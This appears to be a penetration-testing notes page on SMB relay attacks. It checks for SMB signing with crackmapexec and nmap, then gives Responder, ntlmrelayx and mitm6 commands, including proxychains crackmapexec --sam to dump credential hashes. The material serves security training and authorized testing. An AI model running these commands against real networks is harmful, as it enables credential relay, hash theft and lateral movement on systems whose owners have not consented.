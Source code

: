 # SMB Relay

## What is SMB relay?

SMB relay attack is just relaying those credentials you capture with responder like, in the LLMNR Poisoning but this time you authenticate with those in other machines.

### Requirements

* SMB Signing needs to be disabled on target
* User must have elevated privileges in the machine, like local admin, domain administrator, member of, and the group etc.

### What is SMB Signing?

* SMB Signing verify the authenticity and origin of the SMB packets. Prevents SMB MiTM attacks effectively.

### Check SMB Signing

* You can use Crackmapexec and Nmap to scan the entire network for SMB signing to make much easier the job.&#x20;

#### Crackmapexec

Use this command and see the results.

```java
crackmapexec smb <ip-address>
```

#### Nmap

* Nmap haves a script to verify if SMB is signed or not. Use the following command and see the results.

```java
nmap --script=smb2-security-mode.nse -p 445,139 192.168.64.129 -Pn --open
```

### How to perform the attack (Ipv4)

First, we need to configure the responder, just change **SMB** and **HTTP** to **Off**:

```javascript
[Responder Core]

; Servers to start
SQL = On
SMB = Off
RDP = On
Kerberos = On
FTP = On
POP = On
SMTP = On
IMAP = On
HTTP = Off
HTTPS = On
DNS = On
LDAP = On
DCERPC = On
WINRM = On
```

We do not want to respond to these protocols as we will be capturing the hash and relaying it to a different tool called **ntlmrelayx.py** from **Impacket**.

#### Starting responder

```bash
sudo python Responder.py -I eth0 -v
```

Later than, call **ntlmrelayx.py**:

```bash
sudo python ntlmrelayx.py -t 192.168.1.11 -smb2support
```

### SMB Relay using Ipv6

* <pre class="language-java"><code class="lang-java"><strong>mitm6 -d domain-name.local
  </strong>ntlmrelayx.py -6 -wh &#x3C;target-ip> -t smb://&#x3C;target-ip> -socks -debug -smb2support

  <strong># Once you have credentials with a TRUE status use proxychains to relay the credentials.
  </strong><strong>
  </strong><strong>proxychains cme smb &#x3C;target-ip> -u &#x3C;User> -p 'whateveryouwant' -d 'domaincorp' --sam 2>/dev/null
  </strong>
  </code></pre>

